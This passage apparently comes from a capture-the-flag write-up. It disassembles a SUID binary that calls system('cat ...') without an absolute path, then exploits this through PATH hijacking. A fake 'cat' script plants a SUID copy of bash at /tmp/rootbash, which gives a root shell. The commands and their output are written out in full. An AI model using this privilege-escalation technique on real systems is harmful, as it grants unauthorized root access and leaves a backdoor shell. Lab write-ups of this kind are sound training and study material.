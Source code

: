 ```shellscript
│           0x557ae9d5615e      e8edfeffff     call sym.imp.setuid     ; int setuid(int uid)
│           0x557ae9d56163      bf00000000     mov edi, 0
│           0x557ae9d56168      e8d3feffff     call sym.imp.setgid     ; int setgid(int gid)
│           0x557ae9d5616d      488d3d900e..   lea rdi, str.cat__tmp_proc.txt ; 0x557ae9d57004 ; "cat /tmp/proc.txt"
│           0x557ae9d56174      b800000000     mov eax, 0
│           0x557ae9d56179      e8b2feffff     call sym.imp.system     ; int system(const char *string)
│           0x557ae9d5617e      90             nop
│           0x557ae9d5617f      5d             pop rbp
└           0x557ae9d56180      c3             ret
```

The analysis revealed that the binary:

1. Sets UID and GID to 0 (root)
2. Executes the command `cat /tmp/proc.txt` using `system()`


### 14. PATH Hijacking Exploitation

Since the binary uses `system()` to call `cat` without an absolute path, I could exploit this through PATH hijacking:

```shellscript
benjamin@versteckt:~$ cat << 'EOF' > cat
#!/bin/bash 
cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash
EOF

benjamin@versteckt:~$ chmod +x cat
benjamin@versteckt:~$ export PATH=/home/benjamin:$PATH
benjamin@versteckt:~$ /usr/bin/chsn
```

This created a malicious `cat` script that copies `/bin/bash` to `/tmp/rootbash` with SUID permissions.

### 15. Root Access

After running the SUID binary, I checked for the created rootbash:

```shellscript
benjamin@versteckt:~$ ls -la /tmp
total 1248
drwxrwxrwt 10 root root    4096 Jul 25 10:39 .
drwxr-xr-x 18 root root    4096 Nov 22  2021 ..
# ... (other files) ...
-rwsr-xr-x  1 root root 1234376 Jul 25 10:39 rootbash
# ... (other files) ...

benjamin@versteckt:~$ /tmp/rootbash -p
rootbash-5.1# id
uid=1011(benjamin) gid=1011(benjamin) euid=0(root) groups=1011(benjamin)
```
